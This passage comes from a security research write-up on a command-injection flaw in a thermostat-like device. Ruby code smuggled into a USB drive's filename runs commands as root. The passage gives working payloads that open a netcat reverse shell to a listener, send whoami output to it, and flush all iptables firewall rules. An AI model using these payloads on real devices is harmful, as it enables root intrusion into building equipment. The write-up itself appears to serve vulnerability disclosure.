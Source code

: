 The software service the device runs is written in Ruby so we can take advantage of the Ruby interpreter-- converting an ASCII number to a character and then use [string interpolation](http://ruby-for-beginners.rubymonstas.org/bonus/string_interpolation.html) to get our desired command!

```
r824_101.tar & ruby -e 'slash=47.chr; `nc <listener ip> 1337 -e #{slash}bin#{slash}bash`' #.tar
```

Let's see what user the device is using by inserting a USB drive with this filename into the device:
```
r824_101.tar & ruby -e 'pipe=124.chr; `whoami #{pipe} nc <IP> 1337`' #.tar
```

And simultaneously listening on another computer.

```
➜  nc -lk 0.0.0.0 1337
root
```

We've achieved command injection as the root user! How deep can we go though?


## Bringing down the shields

An earlier nmap scan showed a number of filtered ports. These are disabled through iptables as part of the device's startup. By `cat`'ing the `etc/rc.d/init.d/network` file, we can learn what they are:

```
# Disable the external SMIL (port 9999)
iptables -A INPUT -p tcp --dport 9999 ! -s 127.0.0.1 -j DROP
# Disable the external cci_handler (port 7777)
iptables -A INPUT -p tcp --dport 7777 ! -s 127.0.0.1 -j DROP
# Disable the external platform_manager (port 7788)
iptables -A INPUT -p tcp --dport 7788 ! -s 127.0.0.1 -j DROP
# Disable the external platform_manager (port 7789)
iptables -A INPUT -p tcp --dport 7789 ! -s 127.0.0.1 -j DROP
# Disable the external XLBridge CCIH (port 4447)
iptables -A INPUT -p tcp --dport 4447 ! -s 127.0.0.1 -j DROP
# Disable the external XLBridge diagnostic (port 4448)
iptables -A INPUT -p tcp --dport 4448 ! -s 127.0.0.1 -j DROP
```

Let's go ahead and disable all these rules:
```
r824_101.tar & ruby -e '`iptables -P INPUT ACCEPT; iptables -F; iptables -X `' #.tar
```

Now we're able to connect to these ports! 

Specifically for port 9999 (the SMIL service) we can leverage the [Tranewreck tools](https://github.com/JeffKitson/Tranewreck_tools) developed by Jeff Kitson. There's lots of interesting diagnostic and control information that the thermostat outputs.

## Reporting the vulnerability
